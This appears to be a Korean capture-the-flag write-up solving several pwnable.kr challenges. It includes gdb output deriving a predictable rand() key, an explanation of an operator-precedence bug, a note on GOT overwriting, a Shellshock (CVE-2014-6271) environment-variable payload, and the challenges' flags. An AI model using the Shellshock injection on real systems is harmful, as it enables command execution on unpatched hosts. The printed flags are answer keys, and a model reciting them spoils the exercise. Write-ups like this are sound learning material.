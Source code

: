 passcode1 변수의 주소에 저 값을 연결시켜 놓으면 scanf로 입력받을 때 fflush 함수의 실행을 조작할 수 있게 됩니다.

PLT & GOT 설명 

https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/

https://bpsecblog.wordpress.com/2016/03/09/about_got_plt_2/

[random] 
random@pwnable:~$ ./random
3039230856
Good!
Mommy, I thought libc random is unpredictable...

Flag: Mommy, I thought libc random is unpredictable...

(gdb) b *0x0000000000400606
Breakpoint 1 at 0x400606
(gdb) i r eax
eax            0x6b8b4567	1804289383
(gdb) p 0x6b8b4567
$1 = 1804289383

rand()값: 1804289383

(gdb) p/d 0xdeadbeef
$4 = 3735928559

(gdb) p/d 1804289383 ^ 3735928559
$5 = 3039230856

[input] 

—————————


[mistake] 
mistake@pwnable:~$ ./mistake 
do not bruteforce...
1111111111
input password : 0000000000
Password OK
Mommy, the operator priority always confuses me :(

Flag: Mommy, the operator priority always confuses me :(

if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0)

< 연산이 먼저 실행되어 false 값인 0이 fd 에 들어가게 된다. 

if(!(len=read(fd,pw_buf,PW_LEN) > 0))

그로 인해, read(0, pw_buf, PW_LEN) 이 실행되어 standard input을 실행한다. 

그리하여, pw_buf의 값이 pw_buf2가 xor 연산한 값과 같으면 flag 실행 가능 

[shellshock] 
shellshock@pwnable:~$ env x='() { :; }; echo() { cat flag; }' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!

Flag: only if I knew CVE-2014-6271 ten years ago..!!
